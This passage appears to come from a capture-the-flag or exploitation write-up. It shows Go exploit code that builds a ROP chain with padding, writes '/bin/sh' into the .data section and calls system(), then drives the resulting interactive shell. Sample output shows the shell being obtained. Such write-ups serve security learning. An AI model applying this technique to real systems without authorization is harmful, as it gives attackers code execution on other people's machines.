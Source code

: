 ```go
        if err != nil {
                log.Fatal(err)
        }
        if err = cmd.Start(); err != nil {
                log.Fatal(err)
        }

        // Read the initial output
        output := bufio.NewReader(stdout)
        _, err = output.ReadBytes('>')
        if err != nil {
                log.Fatal(err)
        }

        // Copy output to the terminal
        go io.Copy(os.Stdout, stdout)
        go io.Copy(os.Stderr, stderr)

        // Create ROP chain
        var ropChain string
        for i := 0; i < 40; i++ {
                ropChain += "Z"
        }
        // Load "/bin/sh" into .data
        ropChain += loadR10(dataSection)
        ropChain += loadR11("/bin/sh\x00")
        ropChain += writeR11Ptr()

        // Call system()
        ropChain += popRDI
        ropChain += dataSection
        ropChain += system
        ropChain += "\n"
        stdin.Write([]byte(ropChain))

        // Interact with shell
        for {
                input := bufio.NewReader(os.Stdin)
                fmt.Printf("$ ")
                shellCommand, _, _ := input.ReadLine()
                shellCommand = append(shellCommand, '\n')
                stdin.Write([]byte(shellCommand))
                time.Sleep(time.Millisecond * 9)
        }
}
```
#### Getting that shell
```
postrequest$ go run exploit.go
$ id
uid=1000(post) gid=1000(post) groups=1000(post)
```
